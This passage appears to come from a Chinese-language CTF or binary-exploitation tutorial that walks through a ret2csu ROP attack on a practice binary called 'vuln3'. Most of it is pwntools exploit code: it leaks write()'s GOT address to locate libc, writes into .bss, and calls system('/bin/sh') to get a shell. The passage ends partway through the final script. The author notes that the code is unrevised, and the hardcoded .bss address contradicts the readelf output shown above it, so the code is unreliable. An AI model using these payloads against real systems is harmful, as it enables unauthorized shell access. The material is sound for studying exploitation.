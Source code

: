 .bss段的地址:
```c
$ readelf -S vuln3|less
...skipping...
  [25] .bss              NOBITS           000000000060103c  0000103c
       0000000000000004  0000000000000000  WA       0     0     1
```

最后构造payload3，调用system()函数执行”/bin/sh”。system()的地址保存在了.bss段首地址上，”/bin/sh”的地址保存在了.bss段首地址+8字节上。

```python
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 = "\x00" * 136
payload3 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0)
payload3 += p64(0x4005f0)
payload3 += "\x00" * 0x38
payload3 += p64(main)
```
# 代码还没改，需要重新看
最终的pwn代码
```python
#!/usr/bin/env python
from pwn import *
 
elf = ELF('vuln3')
libc = ELF('libc.so.6')
 
p = process('./vuln3')
# p = remote('127.0.0.1', 10001)
 
got_write = elf.got['write']
got_read = elf.got['read']
 
main = 0x400564
 
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00" * 136
# pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) 
# mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += p64(0x4005F0) 
payload1 += "\x00" * 0x38
payload1 += p64(main)
 
p.recvuntil("Hello, World\n")
 
p.send(payload1)
 
write_addr = u64(p.recv(8))
 
base_addr = write_addr - libc.symbols['write']
system_addr = base_addr + libc.symbols['system']
 
bss_addr=0x601028
 
p.recvuntil("Hello, World\n")
 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00" * 136
payload2 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) 
```